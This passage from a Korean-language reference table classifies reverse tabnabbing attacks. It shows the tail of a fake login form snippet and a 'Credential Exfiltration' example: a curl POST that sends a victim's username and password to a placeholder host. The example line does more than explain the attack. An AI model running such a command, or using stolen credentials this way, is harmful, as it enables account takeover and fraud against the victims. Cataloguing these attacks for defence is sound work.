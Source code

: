 &lt;input type="password" name="password">
&lt;button type="submit">Login&lt;/button><br>&lt;/form></code></pre></td>
      <td>사용자가 가짜 로그인 폼에 자격증명을 입력하면 해당 정보가 공격자의 서버로 전송된다. 공격자는 제출된 아이디/비밀번호를 가로채 저장함으로써 크리덴셜 탈취에 성공했는지 확인한다. 이렇게 탈취된 인증 정보는 실제 사이트가 아니라 공격자가 조작한 피싱 사이트로 전송된다.</td>
      <td>[C]</td>
    </tr>
  </tbody>
</table>

### Exfiltration
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Credential Exfiltration</td>
      <td><pre><code>curl -X POST -d "username=victim&password=secret" 
https://target.example/login</code></pre></td>
      <td>공격자는 수집한 로그인 정보를 이용해 피해자의 계정에 무단으로 접근하거나, 탈취한 자격증명을 암시장 등에 판매하는 등 추가 공격을 수행한다. 예를 들어 탈취된 계정으로 로그인하여 금융 거래를 하거나 다른 서비스의 비밀번호로 재사용하여 2차 피해를 야기한다. 이러한 Tabnabbing 공격은 피해자의 인증 정보를 가로채 계정 장악 등 심각한 보안 위협으로 이어진다.</td>
      <td>[B]</td>
    </tr>
  </tbody>
</table>

## 분류에 해당하는 문서

[1] https://redfoxsec.com/blog/deciphering-the-threat-of-tabnabbing-attacks/

## 기타 참고문헌

[A] https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Attributes/rel/noopener  
[B] https://owasp.org/www-community/attacks/Reverse_Tabnabbing  
[C] https://portswigger.net/daily-swig/upcoming-google-chrome-update-will-eradicate-reverse-tabnabbing-attacks
